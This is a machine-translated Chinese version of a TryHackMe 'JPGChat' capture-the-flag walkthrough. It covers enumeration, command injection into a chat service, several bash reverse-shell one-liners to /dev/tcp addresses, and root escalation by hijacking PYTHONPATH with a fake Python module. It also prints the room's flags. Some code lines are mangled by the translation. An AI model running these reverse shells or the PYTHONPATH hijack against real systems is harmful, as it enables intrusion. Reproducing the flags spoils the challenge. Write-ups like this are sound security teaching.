 # TryHackMe | JPGChat 报道

> 原文：<https://infosecwriteups.com/tryhackme-jpgchat-writeup-5a6ec94c2c8d?source=collection_archive---------1----------------------->

# 概观

嘿，大家好。我带着另一篇文章回来了，这一次尝试了[*jpg chat*](https://tryhackme.com/room/jpgchat)by*[*R4v3n*](https://tryhackme.com/p/R4v3n)*。*这是一个相当简单的盒子，有一个有趣的变化，你必须做一些 GitHub 搜索来找到聊天服务的源代码。从那里，你得到一个反向壳回来，并获得最初的立足点。之后，有一个 python 可执行文件，用户可以使用 root 权限运行，无需密码。为了利用它，您必须欺骗 PYTHONPATH 变量。所以，没别的说了，就从盒子开始吧。*

# *我们闯进去吧！*

*像往常一样，从 NMap 扫描开始。*

```
*sudo nmap -sS -sV -sC -oA nmap/chat *THM Box IP* -vv*
```

> *这里-sS: SYN Scan，-sC:用于“安全”脚本或默认脚本，-sV:用于版本枚举，-oA:所有格式的输出(Greppable、XML 和默认 NMap 输出)，-vv:用于详细。*

*![](img/e2658496cf632f1a02b92a378a59028a.png)*

*NMap 完成扫描后，我们看到只有两个端口 22(ssh)和 3000(ppp)处于打开状态。在通过我们的浏览器访问端口 3000 上的服务时，我们看到我们有一些关于如何使用该服务的说明。但是，当通过网络浏览器访问时，该服务并没有完全发挥作用。*

*![](img/a04826c3c2a21fd8d59ad3ff0cf830a2.png)*

*所以让我们使用 NetCat 来连接服务。*

```
*nc *THM Box IP* 3000* 
```

*![](img/6f89f610a442a31f65551b9498b6bcbb.png)*

*通过 NetCat 连接后，我们看到消息传递和报告功能对我们都可用。该服务还告诉我们，源代码可以在 admins GitHub 上找到。为了找到管理员的名字，我们连接到服务的[报告]功能，服务泄漏了管理员的名字。现在，要找到源代码，只需在 GitHub 中稍微浏览一下，我们就能找到服务的源代码。*

*![](img/32a4f1adf3eba4ef8b603e706d48fab3.png)*

*该服务利用 python 的操作系统模块，并使用 bash shell 运行命令。通过使用通用的 bash 反向 shell 一行程序，我们可以很容易地获得反向 shell。*

```
*bash -i >& /dev/tcp/*Your OpenVPN IP*/*port you’re listening on**
```

*这台机器确实接通了，但由于某种原因总是中断。因此，让我们使用另一个带有编码字符的 liner。*

```
*0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196*
```

> *想了解更多类似的精彩的一句话，请访问 swisskys 的 GitHub 知识库。*

*![](img/9c803107e0f942622d9f365e49fb0aca.png)*

*这次我们得到了没有任何问题的反向外壳。但是，这个 shell 不可用，因为命令输出在屏幕上不可见。但是，我们确实执行了命令。所以，我们可以再次让机器连接到我们，以获得反向外壳。*

```
*bash -c 'bash -i >& /dev/tcp/*Your OpenVPN IP*/*port you’re listening on*'*
```

*![](img/bac874cb9ff58f9a96c3fdd934afc274.png)*

*现在我们有了一个可用的外壳。让我们升级到一个完整的 TTY 外壳。*

```
*python3 -c ‘import pty; pty.spawn(“/bin/bash”)’*
```

*这会给你一个稍微好一点的外壳，但是没有那些神奇的特性。要获得功能完整的 TTY shell:*

```
*Press Ctrl-z to background the current shell, then on your terminal type:
stty raw -echo; fg <enter><enter>*
```

*然后在你的外壳上:*

```
*stty rows 36 cols 136
export TERM=xterm-256color*
```

***用户标志:** THM{w4it_h0w_c4n_th3s_b3}*

*现在，将我们的权限提升到 root。运行`sudo -l`我们得到一个提示，我们的用户可以以 root NOPASSWD 身份运行 test-module.py。我们不能修改脚本，但我们可以阅读它。*

*该脚本正在导入一个比较模块，这意味着我们可以欺骗 PYTHONPATH 变量，并创建我们自己的伪 compare.py 模块，并使用它来获取 root。*

```
*cd /tmpexport PYTHONPATH=$PWD
touch compare.py
chmod +x compare.py*
```

***等等**！，但是 PYTHONPATH 是什么，你怎么知道这个脚本在用它。别担心，因为我正要告诉你。*

*因此，PYTHONPATH 是一个环境变量，顾名思义，如果模块不在默认的全局目录中，python 脚本就在这个路径中查找被调用的模块**。因此，这意味着如果一个 python 脚本试图调用一个预定义的模块(例如 os)，欺骗 PYTHONPATH 对脚本没有影响，因为它不会访问 PATH 变量。***

*![](img/f164a5ae46d07b2a4881c32a7eab05f4.png)*

*脚本是如何使用它的，首先当你`sudo -l`注意到右上角写着 env_keep+=PYTHONPATH，这意味着当调用任何东西作为 sudo 时，它将保持 PYTHONPATH 环境变量。其次，如果您阅读了该脚本，并且具有一点 python 编程知识，您会注意到正在导入的模块“compare”不是 python 编程语言的标准模块，这可能意味着用户可能没有将它安装在全局目录中，这又会导致相同的结论。*

*现在在 compare.py 中，进行一个系统调用，以 sudo 的身份调用 bash。*

```
*#!/usr/bin/env python3
import osos.system("/bin/bash")*
```

*这里刚刚发生了什么？*

*这个脚本非常简单，但不是所有人都能理解这里发生了什么。因此，我们导入了一个名为 os 的模块，它使我们能够从脚本中调用和执行系统命令，然后我们使用系统函数来调用 bash shell。如果您以普通用户的身份运行这个脚本，什么都不会改变。但是，如果您以 root 权限运行，您将拥有一个 root shell。*

**这很好，但是为什么导入一个模块会给我们一个根 shell 呢？**

*当你用 python 或者其他语言导入一个模块时，它可以导入这个模块中指定的函数或类，也可以导入整个包。在这个场景中，它正在导入整个包*(由通配符“*”指定)。然后，它调用比较模块中的一个函数，只要那一行被执行，我们的伪模块就开始做它的事情。它调用具有 root 权限的 bash shell，脚本停留在后台。当您退出根 shell，回到普通用户时，您可能已经注意到它给出了一个错误，没有找到指定的函数。这意味着，这段时间以来，脚本一直在调用函数，这给了我们的 shell 持久性。**

**这只是一个非常外行的解释而已，如果你想进入真正的技术细节，请阅读[](https://medium.com/python-features/what-happens-behind-the-scenes-when-we-import-a-module-in-python-2775da153790)*这篇非常透彻的文章。***

***现在，以 sudo 的身份运行 test-module.py。我们得到了根。***

***![](img/efb905c8691f299a8ad533ac4d2a687e.png)***

*****Root-Flag:**THM { h4h4h 4 _ g0t _ y4 _ suck 3rs }***

***这就是那个盒子，希望你们喜欢。***

***祝你有美好的一天！***